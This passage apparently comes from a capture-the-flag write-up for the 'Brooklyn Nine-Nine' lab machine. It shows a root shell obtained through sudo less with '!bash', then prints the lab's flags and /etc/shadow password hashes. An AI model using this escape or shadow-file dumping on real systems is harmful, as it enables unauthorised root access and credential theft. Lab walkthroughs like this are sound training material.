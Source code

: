 ### *Privilege Escalation*

This privesc is very easy and we can just run:

* `sudo /usr/bin/less [FILENAME]`

Inside the file's output, type:

* `!bash`

    ![inside less](../imgs/Brooklyn%20Nine-Nine/inside_less_output.png)

* then press enter to get `root` shell.

Note: Root shell is denoted by `#` (octothorpe/hashtag/number/pound) sign.

![Rooted](../imgs/Brooklyn%20Nine-Nine/root.png)

### Data Exfiltration

We also exfiltrated the files `user.txt`, `root.txt` and the contents `/etc/shadow` file.

#### Flags

User.txt: `ee11cbb19052e40b07aac0ca060c23ee`

##### Root flag

Root.txt: `9f0ea7bb98050796b649e85481845`

#### /etc/shadow Contents (only with encrypted passwords/and root user)

```bash
root:*:18295:0:99999:7:::
amy:$6$UKs4AX7L$8Q1ET3/4EDtczkEAde4Bkc9g4ao2v3IRbapkqtNnWaKa7a2UHbYGsAEqBPlAwXVq8LK39IRjPwmocYkkkikrR0:18399:0:99999:7:::
holt:$6$arvDAeLb$qQX5UfC/TdI2GELzcrI88B7aD.3NGI9eGyhIQPNdtFIcTfzNdSrxt212lOdNM./UQ0dInL0ej4UliuHKKQcjk0:18399:0:99999:7:::
jake:$6$sAa2xMd5$/EyF9jL6BNeNEYixHkn86Gcvg8UeVJl7FvjXcJH1InhrwObBcN7qecniXkq.Bq1nFA8YS8HD2uk/jf8Ju7KnW0:18401:0:99999:7:::
```

### STATUS: ROOTED

The next two steps are not necessary for completion of the machine but it completes the 5 Phases of Penetration Testing.

